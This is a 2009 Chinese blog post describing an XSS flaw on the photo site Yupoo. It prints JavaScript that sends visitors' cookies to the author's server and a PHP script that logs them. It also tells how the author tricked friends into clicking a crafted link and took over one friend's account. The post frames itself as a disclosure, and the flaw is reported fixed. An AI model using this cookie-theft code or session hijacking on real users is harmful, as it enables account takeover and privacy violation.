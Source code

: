 ```yaml
---
title: Yupoo 的 XSS 漏洞攻击实录
date: 2009-01-14
layout: post
categories:
    - 奇技淫巧

#type: draft
---
```


*声明：此漏洞已经提交到 Yupoo 官方。因此漏洞造成的任何后果，本人不承担任何责任。*

偶然的机会发现  [Yupoo]({{site.urls}}/posts/1512/)  线上某页面有个  [XSS 漏洞]({{site.urls}}/posts/2491/) ，它能执行任意的前端代码。

![http://files.gracecode.com/2009_11_05/113846d10845.jpg](http://files.gracecode.com/2009_11_05/113846d10845.jpg)

漏洞产生的原因主要有两点，首先是表单虽然定为 POST 方法，但尝试后发现 GET 参数也可以接收的；其次，也是最致命的是，输入的参数没有经过任何的转义和过滤，就被加入到了页面中。

![http://files.gracecode.com/2009_11_05/742516d10846.jpg](http://files.gracecode.com/2009_11_05/742516d10846.jpg)

于是插入了相应的 Javascript 代码，并构成了 XSS （参看图中 input 参数后面的 value 已经构成了 script 标签）。

弹出个 alert 框似乎并不能说明什么问题，最好能使它发挥威力。于是构建了个 Javascript 脚本传递客户端的 cookie 到本人的服务器环境。Javascript 脚本可以简单的这样写

```
var img = new Image();
img.src = 'get_cookie.php?var=' + encodeURI(document.cookie);
```

然后服务器端使用 PHP 简单写了个脚本保存 Cookie 数据

```
<?php
if (isset($_GET['var'])) {
    file_put_contents('./cookie/'.time().'.txt', urldecode($_GET['var']));
}
```

接下来就属于社会学的范畴， [我在 Twitter 上](http://twitter.com/feelinglucky) 发了信息并「引诱」朋友们去点击伪造后的连接（我承认很猥琐）。

![http://files.gracecode.com/2009_11_05/574966d10846.jpg](http://files.gracecode.com/2009_11_05/574966d10846.jpg)

不一会就收集了某兄弟的 Cookie，于是将其 Cookie 内容填到了本地浏览器上（谢天谢地，Yupoo 的 Cookie 不是很多）。

![http://files.gracecode.com/2009_11_05/427946d10847.jpg](http://files.gracecode.com/2009_11_05/427946d10847.jpg)

再次刷新浏览器，已经使用该用户的帐号登陆了（即便此时我还不知道他的密码）。

![http://files.gracecode.com/2009_11_05/881866d10848.jpg](http://files.gracecode.com/2009_11_05/881866d10848.jpg)

![http://files.gracecode.com/2009_11_05/826286d10848.jpg](http://files.gracecode.com/2009_11_05/826286d10848.jpg)

最后，使用此帐户发张本人的艳·照，纪念下…

`-- Update --`

截止 2009-01-14 16:25 , Yupoo 已经修复了此漏洞，效率真高！赞！

`-- Split --`

总结：上述攻击的手段，仅仅是从个不起眼的 XSS 漏洞开始。XSS 虽然发现快、修补也很方便，但从根本上避免还是个值得研究的课题。

Web2.0 大潮已降， [前端正在改变这这个世界](http://lifesinger.org/blog/?p=956) 。前端代码的安全问题，是每个前端从业人员必须去面对和注意的。
